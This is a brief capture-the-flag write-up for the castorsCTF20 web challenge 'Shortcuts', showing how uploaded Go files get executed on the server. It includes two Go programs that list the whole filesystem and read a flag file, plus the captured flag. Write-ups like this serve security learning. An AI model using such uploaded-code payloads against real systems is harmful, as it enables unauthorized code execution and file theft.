 ```yaml
---
type: "post"
title: "castorsCTF20 - Shortcuts"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "web", "castorsCTF20"]
---
```


<!--more-->
First, let's try to upload a go file.
```
exit status 1Sorry there doesn't seem to be a cat.go.go file
```
So it means we need to remove .go extension? Let's upload another one without extension.
Yep! It worked. But for that there needs to be one with extension and one without.

So if we can execute go file let's execute `ls -Rla` with go and find the interesting files.
```go
package main

import (
	"fmt"
	"os/exec"
)
func main() {
    cmd :=  exec.Command("/bin/ls", "-lahR", "/")
    stdout, err := cmd.Output()
    if err != nil {
        fmt.Println(err.Error())
    }
    fmt.Println(string(stdout))

}
```

We found the flag location! Let's print it

```go
package main

import (
	"fmt"
	"os/exec"
)
func main() {
    cmd :=  exec.Command("cat", "/home/tom/flag.txt")
    stdout, err := cmd.Output()
    if err != nil {
        fmt.Println(err.Error())
    }
    fmt.Println(string(stdout))

}
```

**Flag:** `castorsCTF{4_g00d_4tT1tUd3_Wil7_tk3_u_fuRtheR_Th4n_a_b44d_h}`
